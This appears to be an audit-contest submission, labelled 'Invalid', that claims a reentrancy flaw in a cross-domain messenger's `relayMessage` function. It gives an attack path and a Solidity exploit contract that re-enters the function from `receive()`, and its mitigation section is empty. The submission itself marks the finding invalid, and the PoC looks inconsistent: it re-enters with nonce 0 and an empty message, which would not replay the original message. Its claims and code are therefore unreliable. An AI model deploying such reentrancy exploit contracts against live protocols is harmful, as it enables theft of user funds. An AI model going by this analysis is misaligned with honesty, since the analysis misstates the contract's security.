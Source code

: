 Slow Blonde Griffin

Invalid

# Attacker will exploit reentrancy vulnerability to relay messages multiple times

### Summary

A reentrancy vulnerability will cause multiple message relays for the protocol as the attacker will re-enter the `relayMessage` function before the `successfulMessages` flag is set, allowing the same message to be processed repeatedly.


### Root Cause

In [`src/universal/CrossDomainMessenger.sol:286`](#), the function does not follow the Checks-Effects-Interactions (CEI) pattern. The external call (`SafeCall.call`) is made before updating the `successfulMessages` mapping, allowing a reentrant call to replay the same message before marking it as processed.


### Internal pre-conditions

1. The attacker needs to trigger a cross-chain message relay with a contract that can re-enter the `relayMessage` function.
2. The target contract must be able to call back into the `CrossDomainMessenger` contract during the relay process.


### External pre-conditions

1. The attacker must be able to send a cross-chain message that triggers `relayMessage()`.


### Attack Path

1. Attacker sends a crafted message to the `CrossDomainMessenger`.
2. The external contract `SafeCall.call()` is executed without marking the message as processed in `successfulMessages`.
3. The attacker re-enters the `relayMessage` function during the external call, triggering the same message relay multiple times.
4. The `successfulMessages` flag is only set after all calls are made, allowing multiple relays.


### Impact

The protocol suffers from multiple message relays, potentially leading to multiple unauthorized actions or fund transfers. The attacker gains the ability to relay the same message multiple times without proper validation.


### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICrossDomainMessenger {
    function relayMessage(
        uint256 _nonce,
        address _sender,
        address _target,
        uint256 _value,
        uint256 _minGasLimit,
        bytes calldata _message
    ) external payable;
}

contract ReentrancyExploit {
    ICrossDomainMessenger public crossDomainMessenger;
    bool public shouldReenter;
    uint256 public reentryCount;
    uint256 public maxReentryCount;

    constructor(address _crossDomainMessenger) {
        crossDomainMessenger = ICrossDomainMessenger(_crossDomainMessenger);
        reentryCount = 0;
        shouldReenter = true;
        maxReentryCount = 3;  // Set max re-entry attempts
    }

    // Attack function to trigger reentrancy on relayMessage
    function executeExploit(
        uint256 nonce,
        address target,
        uint256 value,
        uint256 minGasLimit,
        bytes calldata message
    ) external {
        // Call relayMessage and initiate the reentrancy
        crossDomainMessenger.relayMessage{value: 0}(
            nonce,
            address(this),  // The attacker contract as the sender
            target,         // Target contract to exploit
            value,          // The value to send
            minGasLimit,    // Minimum gas limit
            message         // Custom message data
        );
    }

    // This function will be called by the CrossDomainMessenger during relay
    receive() external payable {
        if (shouldReenter && reentryCount < maxReentryCount) {
            reentryCount += 1;
            // Re-enter relayMessage to exploit the reentrancy vulnerability
            crossDomainMessenger.relayMessage{value: 0}(
                0,              // Nonce value
                address(this),  // The attacker contract as the sender
                msg.sender,     // Target to relay message back
                msg.value,      // The value to send
                100000,         // Arbitrary minGasLimit
                ""              // Empty message for re-entrance
            );
        } else {
            shouldReenter = false;
        }
    }
}


### Mitigation

_No response_